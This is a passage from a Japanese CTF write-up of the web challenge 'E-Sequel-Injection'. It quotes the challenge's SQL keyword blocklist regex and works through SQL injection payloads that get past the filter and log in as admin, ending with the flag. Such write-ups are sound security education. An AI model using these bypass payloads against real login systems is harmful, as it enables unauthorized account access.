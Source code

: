 ### E-Sequel-Injection

[500pts, 10solved, hard, web]
個人的に好きな分野です。いくつかの単語が使用禁止されているときに、それを Bypass してください。という jail escape 系と解釈しています。(自分の中では)
まず、方針を考えると、admin としてログインするのが最終目標なので、
1.admin の password の leak->username でリークさせられないだろうか？
2.admin として、後ろでなんとかする
の 2 つが思い浮かびました。
次に、与えられたソースコードをよく眺めます。

```
$pattern = '/(\s|UNION|OR|=|TRUE|FALSE|>|<|IS|LIKE|BETWEEN|REGEXP|--|#|;|\/|\*|\|)/i';
```

ここで禁止される単語がわかりますね。OR が潰されているので passw"or"d もダメです。というわけで、1.の方針はやばそうです。
password だけでなんとかしてみます。[SQLi についての記事](https://medium.com/@gregIT/ringzer0team-ctf-sqli-challenges-part-1-6ceff556f4a8)を見ると、比較系は以下のようになっています

```
= (comparison), <=>, >=, >, <=, <, <>, !=, IS, LIKE, REGEXP, IN
BETWEEN, CASE, WHEN, THEN, ELSE
NOT
AND, &&
XOR
OR, ||
= (assignment), :=
```

`IN`, `NOT`あたりが使えそうですね。
実際にいろいろ打ち込んでいきます。

`' or 1=1 #` 定番。スペースとシャープとイコールと OR で引っかかります。
`'or(1=1)#` スペースなしで出来ました
`'IN('Tokyo')#` #だけでできるようになりました
`'IN('Tokyo')order by 'Tokyo'` or が入っています
`'IN('Tokyo')and!'0'` これで通りました。 -> `SELECT username from users where username='admin' and password=''IN('Tokyo')and!'0'`
流れとしては、まずは禁止文字を使って、徐々に禁止文字の種類を減らすように頑張っていくとよさそうです。
`KosenCTF{Smash_the_holy_barrier_and_follow_me_in_the_covenant_of_blood_and_blood}`

# 最後に

もっともっと精進して、一つでも多くの flag を速く通せるようにがんばりたいです。悔しいです。
作問者はすごい人々だなあと思いました。ツールゲーではなく、頭をひねるものが多くてとても楽しかったです。ありがとうございました。

::: message notice
以降は、2021/10/05 に追記しました。
:::

# 復習

復習をします。
